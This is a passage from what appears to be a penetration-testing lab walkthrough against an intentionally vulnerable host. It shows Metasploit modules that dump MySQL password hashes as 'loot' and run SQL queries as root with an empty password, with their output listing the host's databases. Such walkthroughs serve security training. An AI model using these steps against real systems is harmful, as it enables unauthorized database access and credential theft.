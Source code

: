 `set USERNAME root`

`set RHOSTS 192.168.8.142`

`run`

```
[+] 192.168.8.142:3306    - Saving HashString as Loot: debian-sys-maint:                                                                                                 
[+] 192.168.8.142:3306    - Saving HashString as Loot: root:
[+] 192.168.8.142:3306    - Saving HashString as Loot: guest:
[*] 192.168.8.142:3306    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### 10. Run MySQL queries

Try to run SQL queries on the database.

`use auxiliary/admin/mysql/mysql_sql`

`options`

```
Module options (auxiliary/admin/mysql/mysql_sql):

   Name      Current Setting   Required  Description
   ----      ---------------   --------  -----------
   PASSWORD                    no        The password for the specified username
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     3306              yes       The target port (TCP)
   SQL       select version()  yes       The SQL to execute.
   USERNAME                    no        The username to authenticate as
```

`set USERNAME root`

`set RHOSTS 192.168.8.142`

`run`

```
[*] Running module against 192.168.8.142

[*] 192.168.8.142:3306 - Sending statement: 'select version()'...
[*] 192.168.8.142:3306 -  | 5.0.51a-3ubuntu5 |
[*] Auxiliary module execution completed
```

`set SQL show databases`

`run`

```
[*] Running module against 192.168.8.142

[*] 192.168.8.142:3306 - Sending statement: 'show databases'...
[*] 192.168.8.142:3306 -  | information_schema |
[*] 192.168.8.142:3306 -  | dvwa |
[*] 192.168.8.142:3306 -  | metasploit |
[*] 192.168.8.142:3306 -  | mysql |
[*] 192.168.8.142:3306 -  | owasp10 |
[*] 192.168.8.142:3306 -  | tikiwiki |
[*] 192.168.8.142:3306 -  | tikiwiki195 |
[*] Auxiliary module execution completed
```
